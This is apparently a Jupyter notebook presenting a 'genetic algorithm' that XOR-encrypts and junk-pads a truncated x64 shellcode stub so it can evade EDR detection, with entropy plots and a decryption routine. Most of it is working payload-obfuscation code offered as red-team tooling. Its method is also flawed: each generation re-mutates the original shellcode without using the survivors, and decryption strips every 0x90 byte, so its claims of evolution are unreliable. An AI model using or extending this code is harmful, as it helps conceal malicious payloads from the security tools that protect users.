# Genetic Algorithm Shellcode Obfuscator

**Luis Diaz**  
Security-Focused AI Engineer | Red Team Automation Researcher  



## Project Objective

Develop a genetic algorithm that:
- Obfuscates shellcode using XOR encryption + junk byte insertion
- Ensures correct decryption back to the original payload
- Evolves variants with lower entropy to increase stealth against EDR
- Outputs valid C# loaders for execution

In [1]:
import random
import math
import matplotlib.pyplot as plt
import numpy as np

# Replace this with full shellcode

In [2]:
original_shellcode = [
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00,
    0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
    0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
    0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52
]

# GA configuration

In [3]:
POPULATION_SIZE = 10
GENERATIONS = 5
SURVIVORS = 3
XOR_KEY_RANGE = (1, 255)
JUNK_BYTE = 0x90
JUNK_INSERT_PROBABILITY = 0.3

# Utility Functions


In [4]:
def calculate_entropy(data):
    freq = {}
    for byte in data:
        freq[byte] = freq.get(byte, 0) + 1
    entropy = 0.0
    for count in freq.values():
        p = count / len(data)
        entropy -= p * math.log2(p)
    return entropy

def mutate_shellcode(shellcode):
    xor_key = random.randint(*XOR_KEY_RANGE)
    with_junk = []
    for b in shellcode:
        with_junk.append(b)
        if random.random() < JUNK_INSERT_PROBABILITY:
            with_junk.append(JUNK_BYTE)
    encrypted = [(b ^ xor_key) for b in with_junk]
    decrypted = [(b ^ xor_key) for b in encrypted]
    cleaned = [b for b in decrypted if b != JUNK_BYTE]
    if cleaned == shellcode:
        junk_ratio = with_junk.count(JUNK_BYTE) / len(with_junk)
        return encrypted, xor_key, junk_ratio
    return None, None, None

def fitness(shellcode):
    return -calculate_entropy(shellcode)

# Run Genetic Algorithm

In [5]:
entropy_track = []
junk_ratio_track = []
final_byte_histogram = {}

population = []
while len(population) < POPULATION_SIZE:
    encrypted, key, junk_ratio = mutate_shellcode(original_shellcode)
    if encrypted:
        population.append((encrypted, key, junk_ratio))

for gen in range(GENERATIONS):
    scored = [(sc, k, jr, fitness(sc)) for sc, k, jr in population]
    scored.sort(key=lambda x: x[3], reverse=True)
    survivors = scored[:SURVIVORS]
    best_entropy = -survivors[0][3]
    avg_junk_ratio = np.mean([s[2] for s in survivors])
    entropy_track.append(best_entropy)
    junk_ratio_track.append(avg_junk_ratio)

    print(f"Gen {gen+1}: Best Entropy = {best_entropy:.4f}, Avg Junk Ratio = {avg_junk_ratio:.2f}")

    new_population = []
    while len(new_population) < POPULATION_SIZE:
        parent_shellcode, _, _, _ = random.choice(survivors)
        encrypted, key, junk_ratio = mutate_shellcode(original_shellcode)
        if encrypted:
            new_population.append((encrypted, key, junk_ratio))
    population = new_population

Gen 1: Best Entropy = 3.5616, Avg Junk Ratio = 0.31
Gen 2: Best Entropy = 3.6448, Avg Junk Ratio = 0.28
Gen 3: Best Entropy = 3.6030, Avg Junk Ratio = 0.30
Gen 4: Best Entropy = 3.6030, Avg Junk Ratio = 0.29
Gen 5: Best Entropy = 3.7711, Avg Junk Ratio = 0.24


# Entropy over generations



In [6]:
plt.figure(figsize=(10, 5))
plt.plot(range(1, GENERATIONS + 1), entropy_track, marker='o')
plt.title("Entropy of Best Variant Over Generations")
plt.xlabel("Generation")
plt.ylabel("Entropy")
plt.grid(True)
plt.tight_layout()
plt.show()

# Junk byte trend




In [7]:
plt.figure(figsize=(10, 5))
plt.plot(range(1, GENERATIONS + 1), junk_ratio_track, marker='o', color='orange')
plt.title("Average Junk Byte Ratio Over Generations")
plt.xlabel("Generation")
plt.ylabel("Junk Byte Ratio")
plt.grid(True)
plt.tight_layout()
plt.show()


# Byte frequency




In [8]:
final_shellcode = population[0][0]
for byte in final_shellcode:
    final_byte_histogram[byte] = final_byte_histogram.get(byte, 0) + 1

labels = [f'0x{b:02x}' for b in sorted(final_byte_histogram)]
values = [final_byte_histogram[b] for b in sorted(final_byte_histogram)]

plt.figure(figsize=(12, 6))
plt.bar(labels, values, color='steelblue')
plt.title("Byte Frequency in Final Obfuscated Shellcode")
plt.xlabel("Byte Value")
plt.ylabel("Frequency")
plt.xticks(rotation=45)
plt.grid(axis='y', linestyle='--', alpha=0.7)
plt.tight_layout()
plt.show()


# Comparison with original shellcode



In [9]:
def get_byte_frequencies(shellcode):
    freqs = {}
    for b in shellcode:
        freqs[b] = freqs.get(b, 0) + 1
    return freqs

freq_original = get_byte_frequencies(original_shellcode)
freq_obfuscated = get_byte_frequencies(final_shellcode)
all_bytes = sorted(set(freq_original.keys()) | set(freq_obfuscated.keys()))

labels = [f'0x{b:02x}' for b in all_bytes]
orig_counts = [freq_original.get(b, 0) for b in all_bytes]
obfs_counts = [freq_obfuscated.get(b, 0) for b in all_bytes]

x = range(len(labels))
width = 0.4

plt.figure(figsize=(12, 6))
plt.bar(x, orig_counts, width=width, label='Original', align='center')
plt.bar([i + width for i in x], obfs_counts, width=width, label='Obfuscated', align='center')
plt.xticks([i + width / 2 for i in x], labels, rotation=45)
plt.title("Byte Frequency: Original vs Obfuscated Shellcode")
plt.xlabel("Byte (hex)")
plt.ylabel("Frequency")
plt.legend()
plt.grid(axis='y', linestyle='--', alpha=0.6)
plt.tight_layout()
plt.show()

In [10]:
def preview_bytes(barray, label, length=32):
    preview = ' '.join(f"{b:02x}" for b in barray[:length])
    print(f"{label}: {preview}")

preview_bytes(original_shellcode, "Original Shellcode")
preview_bytes(final_shellcode, "Obfuscated Shellcode")

Original Shellcode: fc 48 83 e4 f0 e8 c0 00 00 00 41 51 41 50 52 51 56 48 31 d2 65 48 8b 52 60 48 8b 52 18 48 8b 52
Obfuscated Shellcode: 20 4c 94 4c 5f 38 2c 34 4c 1c dc dc dc 9d 8d 4c 9d 8c 8e 4c 8d 4c 8a 4c 94 4c ed 0e 4c b9 94 57


# Decryption Routine for Final Obfuscated Shellcode

In [11]:
def decrypt_shellcode(encrypted, xor_key, junk_byte=JUNK_BYTE):
    decrypted = []
    for b in encrypted:
        decoded = b ^ xor_key
        if decoded != junk_byte:
            decrypted.append(decoded)
    return decrypted

# Use best variant from last population
final_encrypted_shellcode = population[0][0]
final_xor_key = population[0][1]
decrypted_shellcode = decrypt_shellcode(final_encrypted_shellcode, final_xor_key)

# Validation Check
is_valid = decrypted_shellcode == original_shellcode
print("Decryption successful:", is_valid)
if not is_valid:
    print("Decrypted shellcode does not match original!")
else:
    preview = ' '.join(f"{b:02x}" for b in decrypted_shellcode[:32])
    print("Decrypted Preview:", preview)

Decryption successful: True
Decrypted Preview: fc 48 83 e4 f0 e8 c0 00 00 00 41 51 41 50 52 51 56 48 31 d2 65 48 8b 52 60 48 8b 52 18 48 8b 52
